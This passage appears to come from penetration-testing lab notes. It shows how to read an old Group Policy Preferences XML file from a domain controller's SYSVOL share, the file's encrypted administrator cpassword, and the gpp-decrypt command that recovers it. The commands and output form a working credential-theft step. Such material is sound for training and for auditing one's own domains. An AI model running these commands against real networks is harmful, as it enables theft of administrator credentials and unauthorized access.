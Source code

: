```
cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
```

If we find an encrypted password we may be able to decrypt it with `gpp-decrypt`:

```
PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups   clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User   clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
          name="Administrator (built-in)"
          image="2"
          changed="2012-05-03 11:45:20"
          uid="{253F4D90-150A-4EFB-BCC8-6E894A9105F7}">
    <Properties
          action="U"
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
          changeLogon="0"
          noChange="0"
          neverExpires="0"
          acctDisabled="0"
          userName="Administrator (built-in)"
          expires="2016-02-10" />
  </User>
</Groups>
```

```
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

